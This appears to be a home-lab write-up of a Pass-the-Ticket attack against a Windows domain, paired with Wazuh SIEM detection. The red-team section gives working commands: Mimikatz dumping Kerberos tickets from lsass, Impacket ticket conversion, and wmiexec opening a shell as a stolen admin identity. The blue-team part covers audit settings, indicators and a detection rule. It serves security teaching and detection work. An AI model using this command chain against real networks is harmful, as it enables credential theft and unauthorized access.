





# Scenario 6: Pass-the-Ticket (PtT) Attack & SIEM Detection

In this scenario, we simulate an advanced lateral movement technique: **Pass-the-Ticket (PtT)** (MITRE ATT&CK `T1550.003`). Unlike Overpass-the-Hash, the attacker does not interact with the Domain Controller to request a ticket; instead, they harvest an active Kerberos ticket directly from a compromised machine's memory to impersonate the victim across the network.

---

## 🔴 1. Offensive Phase (Red Team)

### A. Kerberos TGT Extraction via Mimikatz

The attacker has compromised the Windows 7 client workstation (`kg4real-PC`). Since the highly privileged `cyberlab.4real\backup_admin` account recently logged into this machine, its TGT (Ticket Granting Ticket) is actively cached inside the memory space of the `lsass.exe` process.

Using Administrator privileges, we execute Mimikatz to dump the cached tickets from the LSA isolated memory:

```dos
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit
```

This command dumps several `.kirbi` files into Mimikatz's current working directory, representing the isolated tickets found in memory.





### B. Ticket Conversion and Injection on Kali Linux

Since Linux-based tools cannot natively read Windows `.kirbi` files, we transfer the harvested ticket to our attacking machine and use Impacket to convert it into the standard `.ccache` format:

```bash
impacket-ticketConverter "[0;3e7]-2-0-40e10000-backup_admin@krbtgt-CYBERLAB.4REAL.kirbi" backup_admin.ccache
```

Next, we inject the converted ticket into our current Kali Linux terminal session environment variables so that the underlying Kerberos subsystem automatically leverages it:

```bash
export KRB5CCNAME=backup_admin.ccache
```

### C. Lateral Movement (Remote Execution via WMI)

Without ever knowing the cleartext password or the NTLM hash of the `backup_admin` account, we pass the stolen ticket to open a semi-interactive shell on the target machine:

```bash
impacket-wmiexec -k -no-pass CYBERLAB.4REAL/backup_admin@kg4real-PC.cyberlab.4real
```

**Result:** Authentication succeeds. We successfully drop into a shell as `cyberlab\backup_admin` on the target station.



---

## 🔵 2. Defensive Phase & Correlation (Blue Team)

### A. Windows Host Hardening & Log Configuration

By default, Windows client workstations do not thoroughly track network logon activities. To ensure total visibility inside our Wazuh SIEM, we activated advanced local audit policies on the Windows 7 target (`kg4real-PC` via `secpol.msc` or PowerShell `auditpol`):

* Audit logon events (Success and Failure)
* Audit account logon events (Success and Failure)

### B. Indicators of Compromise (IoC) Analysis

When a stolen ticket is passed via Impacket to access a domain machine, the Domain Controller (`SRV-DC-01`) processes a legitimate Kerberos Service Ticket Request (Event ID **4768 / 4769**), but exhibits a critical behavioral anomaly:

* A sensitive administrative account (`backup_admin`) initiates authentication requests directly originating from the client workstation network zone (`10.10.20.0/24`) rather than a dedicated admin console.
* The authentication package explicitly flags Kerberos utilizing a strong **AES-256 (0x12)** encryption type, confirming that no legacy NTLM fallback mechanism was triggered during the handshake.

---

## 🛠️ 3. Custom Wazuh Detection Rule

To intercept this unauthorized behavior, we implement the following custom rule inside the Wazuh Manager's `/var/ossec/etc/rules/local_rules.xml` file:

```xml
<group name="windows, authentication_success,">
  <rule id="100040" level="12">
    <if_sid>60103</if_sid>
    <field name="win.eventdata.targetUserName">^backup_admin$</field>
    <field name="win.eventdata.ipAddress">^::ffff:10\.10\.20\.</field>
    <description>CRITICAL ALERT: Suspected Pass-the-Ticket (PtT) - Anomalous Kerberos TGT Request for $(win.eventdata.targetUserName) from Client Subnet</description>
    <mitre>
      <id>T1550.003</id>
    </mitre>
  </rule>
</group>
```

---

## 📈 4. SIEM Dashboard Validation

Once the Wazuh manager is restarted and the lateral movement attack is executed, the security event immediately triggers our custom Level 12 rule. The SIEM perfectly maps the malicious activity, explicitly highlighting the attacking source IP address and the hijacked administrative identity.



---

## 🏆 MITRE ATT&CK Mapping

* **Tactics:** Lateral Movement (`TA0008`), Defense Evasion (`TA0005`)
* **Technique:** Use Alternate Authentication Material: Pass the Ticket (`T1550.003`)
